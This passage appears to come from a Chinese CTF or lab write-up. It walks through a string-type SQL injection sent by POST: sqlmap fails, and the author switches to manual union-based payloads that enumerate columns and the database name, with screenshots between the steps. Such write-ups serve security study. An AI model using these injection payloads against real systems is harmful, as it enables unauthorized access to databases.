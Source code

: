 而且还是字符型 SQL 注入，一眼 POST 传参，sqlmap 试一下，抓包看一下传参

[![](assets/1701678867-cd687ebaadc9bfbc89a6c94ae620619f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203258-42f4a29a-8dea-1.png)

测试了一下，好像不可以，手动打吧

```bash
-1' union select 1,2,3#
```

[![](assets/1701678867-c978194f02592177a7db1c06c7d60265.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203305-4771eb52-8dea-1.png)

爆一下数据库

```bash
-1' union select database(),2,3#
```

[![](assets/1701678867-568c6a12945831ae0a421e6e875a5e52.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203312-4ba49e22-8dea-1.png)
